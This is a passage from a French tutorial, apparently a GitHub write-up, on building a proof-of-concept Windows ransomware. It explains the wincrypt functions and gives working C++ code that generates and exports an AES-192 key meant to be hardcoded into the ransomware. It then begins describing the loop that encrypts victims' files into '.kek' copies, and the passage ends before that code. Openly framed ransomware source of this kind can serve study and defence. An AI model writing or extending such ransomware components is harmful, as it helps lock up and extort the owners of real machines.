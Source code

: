 # Le service de chiffrement

Le coeur de notre ransomware PoC reste son service de chiffrement. Pour cet aspect, Microsoft met à notre disposition la librairie wincrypt, inclue dans le set API Windows (https://docs.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptacquirecontexta). Celle-ci sera supposément bientôt dépréciée, et remplacée par le standard CNG (https://docs.microsoft.com/en-us/windows/win32/seccng/cng-portal et https://docs.microsoft.com/fr-fr/windows/win32/seccng/encrypting-data-with-cng), mais en attendant, nous nous en contenterons. 

>Afin de complaire à nos grands amis de l'OQLF, de l'ANSSI, et de l'Académie Française, l'auteur utilisera le terme "chiffrer" au lieu d'encrypter.

## La gestion cryptographique avec l'API Windows ; théorie

Pour tout ce qui touche à la génération d'une clé et à la logique de chiffrement, le trio de fonctions le plus utiles dans l'API Windows restent :

### CryptAcquireContextA

Qui nous permet l'acquisition d'une handle vers le container de clé d'un fournisseur de services cryptographiques (CSP selon la doc Microsoft). Cette handle sera ré-utilisée par les autres fonctions de wincrypt.

```cpp
BOOL CryptAcquireContextA(
  [out] HCRYPTPROV *phProv,
  [in]  LPCSTR     szContainer,
  [in]  LPCSTR     szProvider,
  [in]  DWORD      dwProvType,
  [in]  DWORD      dwFlags
);
```

### CryptGenKey

Qui permet la génération de notre clé.

```cpp
BOOL CryptGenKey(
  [in]  HCRYPTPROV hProv,
  [in]  ALG_ID     Algid,
  [in]  DWORD      dwFlags,
  [out] HCRYPTKEY  *phKey
);
```

### CryptExportKey

Export de la clé. Utilisé deux fois, d'abord pour calculer la longueur de notre futur "blob", puis pour remplir celui-ci avec une structure de type PLAINTEXTKEYBLOB, avec entre les deux un petit malloc à notre blob en utilisant la longueur du blob calculée la première fois.

La fonction :
```cpp
BOOL CryptExportKey(
  [in]      HCRYPTKEY hKey,
  [in]      HCRYPTKEY hExpKey,
  [in]      DWORD     dwBlobType,
  [in]      DWORD     dwFlags,
  [out]     BYTE      *pbData,
  [in, out] DWORD     *pdwDataLen
);
```

La structure en question. Pour une clé AES-192, notre blob fera donc par exemple un total de 36 bytes

```cpp
typedef struct _PLAINTEXTKEYBLOB {
  BLOBHEADER hdr;
  DWORD      dwKeySize;
  BYTE       rgbKeyData[];
} PLAINTEXTKEYBLOB, *PPLAINTEXTKEYBLOB;
```

## La gestion cryptographique avec l'API Windows : pratique.

Voilà donc à quoi ressemble notre code final pour la génération de clé


```cpp
  int genkey(){

  HCRYPTPROV prov = NULL;
  HCRYPTKEY clé = NULL;
  DWORD bloblen = 0;
  BYTE* blob;
  bool ok;

  if (CryptAcquireContextW(&prov, 0, 0, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {

    std::cout << "Context acquired" << std::endl;
  }
  else {
    DWORD d = GetLastError();
    std::cout << "Failure to acquire context" << d << std::endl;
    return -1;
  }

  if (CryptGenKey(prov, CALG_AES_192, 0x00C00000 | CRYPT_EXPORTABLE, &clé)) {
    std::cout << "Key Generated : " << clé << std::endl;

  }
  else {
    DWORD d = GetLastError();
    std::cout << "Failure to generate key, error code : " << d << std::endl;
    CryptDestroyKey(clé);
    CryptReleaseContext(prov, 0);
    return -1;

  }


  if (CryptExportKey(clé, 0, PLAINTEXTKEYBLOB, 0, NULL, &bloblen)) {

    std::cout << "Size of the blob determined : " << bloblen << std::endl;
  }
  else {
    DWORD d = GetLastError();
    std::cout << "Error calculating the length, error code : " << d << std::endl;
    return -1;
  }

  if (blob = (BYTE*)malloc(bloblen)) {

    std::cout << "Memory has been allocated to the blob :" << sizeof(blob) << std::endl;
  }
  else {
    DWORD d = GetLastError();
    std::cout << "Out of memory, error code : " << d << std::endl;
    return -1;
  }
  
  ok = CryptExportKey(clé, 0, PLAINTEXTKEYBLOB, 0, blob, &bloblen);

  if (ok == FALSE) {

    DWORD d = GetLastError();
    std::cout << "Error exporting key, error code : " << d << std::endl;
    free(blob);
    return -1;
  }
  else {
    std::cout << "Content written to the blob" << std::endl;
    std::cout << "Here's the raw blob value :" << blob << std::endl;

    std::ofstream bytefile("byte.txt",std::ios::binary);
    bytefile.write((const char*)blob,sizeof(blob));
    bytefile.close();

  }

return 0;
}
  ```

  Une fois celle-ci créée, elle peut être ré-importée (dans notre cas sous la forme d'un array de bytes hardcodé) lorsque le ransomware s'exécutera sur la machine de test cible via la fonction CryptImportKey (qui requiert un CSP valide, et donc l'exécution locale de CryptAcquireContextW au préalable) :

```cpp
BOOL CryptImportKey(
  [in]  HCRYPTPROV hProv,
  [in]  const BYTE *pbData,
  [in]  DWORD      dwDataLen,
  [in]  HCRYPTKEY  hPubKey,
  [in]  DWORD      dwFlags,
  [out] HCRYPTKEY  *phKey
);
```

## Le chiffrement des fichiers avec une clé : théorie

L'idée reste simple. 

Tout d'abord, créer deux handles : la première pour le fichier source, et la deuxième pour le fichier de destination, qui sera le résultat de notre encryption. La handle de destination, en utilisant l'argument OPEN_ALWAYS, créera le fichier de destination ex-nihilo , au format ".kek".

Après l'ouverture des deux handles, nous lisons une plage de bytes pré-déterminée depuis le fichier source, l'insérons dans un buffer, chiffrons ledit buffer, puis l'insérons dans le fichier de destination. L'opération est répétée jusqu'à ce que le fichier d'origine aie été intégralement chiffré. Simple, non ?

Pour ce faire, nous allons utiliser un trio de fonctions spécifiques ;